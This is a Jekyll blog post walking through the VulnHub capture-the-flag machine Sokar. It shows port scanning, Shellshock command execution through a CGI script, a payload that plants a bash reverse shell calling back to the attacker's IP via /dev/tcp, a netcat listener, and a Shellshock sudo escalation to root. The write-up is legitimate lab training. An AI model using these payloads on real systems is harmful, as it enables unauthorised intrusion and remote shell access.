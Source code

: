 ```yaml
---
layout: blog_item
title:  "Sokar - Walkthrough"
date:   2024-02-23 14:00:10
author: Dhruv Ambaliya
description: 'Sokar - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee">Easy</i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Description

Sokar was a vulnhub competition, unfortunately I did not have enough free time to compete.

**Author:** @_RastaMouse

**Download:** [VulnHub](https://www.vulnhub.com)


## Enumeration

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.30.148

{% endhighlight %}


### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 591</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.15 ((CentOS))</p></pc>
           </td>
        </tr>
        </tbody>

</table>
</div>

### HTTP Enumeration

Inspection of the Web Application revealed <code>/cgi-bin/cat</code> which indicated it could be vulnerable to shellshock.

### Shellshock

The Shellshock exploit was used to execute remote commands on the target system, however a reverse shell or bind shell were not possible due to restrictive ingress and egress firewall rules. This made for a painful local enumeration of the system via **Burp Suite**.  

#### Identify Current User

![Shellshock ID](/img/blog/sokar/shellshock-id.png)

#### Shellshock home dir perms

![Shellshock home dir](/img/blog/sokar/shellshock-home-dirs.png)

#### Shellshock files owned by user bynarr  

![Shellshock find command](/img/blog/sokar/shellshock-find.png)

The file <code>/tmp/stats</code> appeared to get updated every few minutes, indicating a cronjob *could* be running.

#### Shellshock mail spool readable

![Shellshock mail](/img/blog/sokar/shellshock-mail.png)

The above disclosed <code>bynarrs</code> passwords and the outbound port <code>51242</code> rule for the user.

## Reverse Shell

The following shellshock payload was sent using Burp Suite:

{% highlight bash %}
User-Agent: () { :;};echo;/bin/echo '/bin/bash -i >& /dev/tcp/192.168.221.139/51242 0>&1 ' > /home/bynarr/.profile;
{% endhighlight %}

The cronjob called the .profile file and execute the file contents.

A reverse shell was successfully spawned as the user <code>bynarr</code>

{% highlight bash %}
[root:~/Downloads]# nc.traditional -lp 51242 -vvvv
listening on [any] 51242 ...
192.168.221.148: inverse host lookup failed: Unknown host
connect to [192.168.221.139] from (UNKNOWN) [192.168.221.148] 59533
bash: no job control in this shell
{% endhighlight %}


## Local Enumeration

The following disclosed several bash environment variables were permitted to run as the user <code>bynarr</code> with sudo permissions.

{% highlight bash %}
[bynarr@sokar ~]$ sudo -l
sudo -l
Matching Defaults entries for bynarr on this host:
    !requiretty, visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User bynarr may run the following commands on this host:
    (ALL) NOPASSWD: /home/bynarr/lime

{% endhighlight %}

## Shellshock Local Privilege Escalation

The following shellshock payload was crafted to successfully escalate permissions to root:

{% highlight bash %}
sudo PS1="() { :;} ;  /bin/sh" /home/bynarr/lime
{% endhighlight %}

## Root Flag

{% highlight bash %}
[bynarr@sokar tmp]$ sudo PS1="() { :;} ;  /bin/sh" /home/bynarr/lime
sudo PS1="() { :;} ;  /bin/sh" /home/bynarr/lime
sh-4.1# ls -la /home/bynarr/lime
ls -la /home/bynarr/lime
-rwxr-xr-x 1 root root 368 Jan 27  2015 /home/bynarr/lime
sh-4.1# cat /root/flag
cat /root/flag
                0   0
                |   |
            ____|___|____
         0  |~ ~ ~ ~ ~ ~|   0
         |  |   Happy   |   |
      ___|__|___________|___|__
      |/\/\/\/\/\/\/\/\/\/\/\/|
  0   |    B i r t h d a y    |   0
  |   |/\/\/\/\/\/\/\/\/\/\/\/|   |
 _|___|_______________________|___|__
|/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/|
|                                   |
|     V  u  l  n  H  u  b   ! !     |
| ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ |
|___________________________________|

=====================================
| Congratulations on beating Sokar! |
|                                   |
|  Massive shoutout to g0tmi1k and  |
| the entire community which makes  |
|         VulnHub possible!         |
|                                   |
|    rasta_mouse (@_RastaMouse)     |
=====================================
{% endhighlight %}

Thanks for the VM :)
